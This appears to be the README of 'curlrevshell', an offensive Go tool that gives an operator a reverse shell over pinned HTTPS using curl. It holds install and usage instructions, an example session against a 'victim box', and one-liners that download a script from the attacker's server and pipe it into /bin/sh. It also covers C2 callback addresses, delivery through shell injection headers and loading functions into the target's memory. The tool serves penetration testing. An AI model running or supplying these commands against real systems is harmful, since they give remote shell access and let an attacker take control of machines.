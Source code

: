cURL-Powered Reverse Shell
==========================
Somewhat kooky replacement for the typical `bash >/dev/tcp...` reverse shell,
but with the following "features":

- Underlying comms via HTTPS via double cURL
- Self-signed TLS certificate, plus certificate pinning
- Optionally serves static files
- Accepts multiple shells in series, like `nc -lk` but in color
- IPv6-ready
- Logged [feature creep](./doc/changelog.md)
- Non-zero [documentation](./doc/README.md)
- Makefiles which coldheartedly assume
  [BSD Make](https://man.openbsd.org/make)
- Easyish in-target-memory [shell function sender](./doc/flags.md#-ctrl-i)
- Other [tool~s~](./doc/tools.md)

For legal use only.

Quickstart
----------
1. Install the Go compiler (https://go.dev/doc/install).
2. Install `curlrevshell` and start it.
   ```sh
   go install github.com/magisterquis/curlrevshell@dev
   curlrevshell
   ```
3. Get a shell, using one of the lines under `To get a shell:`.

There are a few options, try `-h` for a list.

Example
-------
It should look like the following, but with nicer colors:
```
$ go install github.com/magisterquis/curlrevshell@dev
go: downloading golang.org/x/sync v0.8.0
go: downloading golang.org/x/net v0.29.0
go: downloading github.com/magisterquis/goxterm v0.0.1-beta.2
go: downloading golang.org/x/tools v0.25.0
go: downloading golang.org/x/exp v0.0.0-20240909161429-701f63a606c0
go: downloading golang.org/x/sys v0.25.0
go: downloading golang.org/x/text v0.18.0
$ curlrevshell
01:04:42.760 Listening on 0.0.0.0:4444
01:04:42.760 To get a shell:

curl -sk --pinnedpubkey sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY= https://192.168.1.10:4444/c | /bin/sh

01:04:55.247 [192.168.1.20] Sent script: ID:zcj5vz3zp6ce URL:192.168.1.10:4444
01:04:55.259 [192.168.1.20] Input connected: ID:1jns1whwi1p1q
01:04:55.259 [192.168.1.20] Output connected: ID:1jns1whwi1p1q
01:04:55.259 [192.168.1.20] Shell is ready to go!
> id
01:05:10.753 uid=1000(you) gid=1000(you) groups=1000(you), 0(wheel), 117(dialer)
```
On `192.168.1.20`, the victim box, somewhere between `01:04:42.760` and `01:04:55.247`:
```sh
curl -sk --pinnedpubkey sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY= https://192.168.1.10:4444/c | /bin/sh
```

Usage
-----
```
Usage: curlrevshell [options]

Even worse reverse shell, powered by cURL.

Keyboard Shortcuts:
Ctrl+O - Mute output for a couple of seconds (for if you cat a huge file)

Options:
  -callback-address address
    	Additional callback address or domain, for one-liner printing (may be repeated)
  -callback-template template
    	Optional callback template file, used if it exists
  -ctrl-i source
    	Tab/Ctrl+I's insertion source file or directory
  -icanhazip
    	Query icanhazip.com for a callback address
  -ipv6-one-liners
    	Also print callback one-liners with IPv6 addresses
  -listen-address address
    	Listen address (default "0.0.0.0:4444")
  -log file
    	Optional file to which to write JSON logs
  -no-timestamps
    	Don't print timestamps
  -one-shell
    	Close listening socket when first shell connects
  -print-ctrl-i
    	Print what would be sent with Tab/Ctrl+I and exit
  -print-default-template
    	Write the default template to stdout and exit
  -prompt string
    	Terminal prompt; don't forget a trailing space (default "> ")
  -serve-files-from directory
    	Optional directory from which to serve static files
  -tls-certificate-cache file
    	Optional file in which to cache generated TLS certificate (default "/home/stuart/.cache/sstls/cert.txtar")
```

Details
-------
Under the hood, it's really just a little HTTP server with four endpoints:

Endpoint          | Description
------------------|------------
`/i/{id}`         | Long-lived connection for input from you to the shell.
`/o/{id}`         | Output from the shell to you, one line at a time.  The `{id}` has to match `/i`'s.
`/c`              | Serves up a little script that takes the place of `bash >/dev/tcp...` and makes you appreciate admins not using `ps awwwfux`.
`/{anythingelse}` | Either serves up files or 404's if nobody gave it `-serve-files-from` (which doesn't actually have to be a directory).

Callback Template
-----------------
The script generated with `/c` can be changed by writing a new template and
telling the program about it with `-print-default-template`.  It usually looks
like
```sh
$ curlrevshell -print-default-template >custom.tmpl # Get the default template to start with
$ vim ./custom.tmpl                                 # Mod ALL the things!
$ curlrevshell -callback-template ./custom.tmpl     # Run with your fancy new template
```
The struct passed to the template is `TemplateParams` in
[script.go](internal/hsrv/script.go).  The default template is
[script.tmpl](internal/hsrv/script.tmpl).  It's re-read every time it's needed,
so feel free to change it as often as you'd like.

A script to generate a custom callback template with embedded shell functions
can be made with `make tools/funcgen` and is found in `tools/funcgen`.

On Linux, you'll probably need BSD make(`apt/yum/such install bmake`, or
thereabouts) and add a `b` before the `make`s.

Callback Address
----------------
Most of the time if you can connect to the server to grab a script (i.e. `/c`)
the server will work out the right callback address.  Most of the time.  For
those times which aren't Most, giving a URL with either a `c2` parameter to `/c`
or a `c2:` header should clear things up.  This is clearer with an example:

### As a URL parameter
The Request for a script:
```sh
curl -sk --pinnedpubkey sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY= https://192.168.1.10:4444/c?c2=kittens.com'
```
The `curl` command in the script:
```sh
curl -Nsk --pinnedpubkey "sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=" https://kittens.com/i/1upal29kpq9g7 </dev/null 2>&0 |
```
With `?c2=kittens.com` it would have been `https://192.168.1.10:4444` instead.

The server also tells us that the script was generated for `kittens.com`:
```
22:08:20.488 [192.168.1.20] Sent script: ID:1upal29kpq9g7 URL:kittens.com
```

### As a header
Sometimes it's a pain to put `?` and such in shell injection.  Headers are
easier.  We'll also add a port this time.
```sh
curl -Hc2:kittens.com:22 -sk --pinnedpubkey sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY= https://192.168.1.10:4444/c
```
Weird flex, but it worked.
```sh
curl -Nsk --pinnedpubkey "sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=" https://kittens.com:22/i/2v0ohzqf5kw1t </dev/null 2>&0 |
```
Server agrees
```
22:14:13.902 [192.168.1.20] Sent script: ID:2v0ohzqf5kw1t URL:kittens.com:22
```

TLS
---
TLS is all via a pinned self-signed certificate.  By default, the certificate
is cached in a file, mostly to keep from having to copy/paste a new fingerprint
every time a ragey Ctrl+C kills the current shell.  Caching can be disabled
with `-tls-certificate-cache ""`.

File Insertion
--------------
It's kinda nice to bring your own functions, even nicer to not have to
drop them to disk, and even nice still to not have to copy/paste a few hundred
lines of shell script by hand.

Works with single files, Perl scripts, and even entire directories.

More info in [the docs](./doc/flags.md#-ctrl-i).
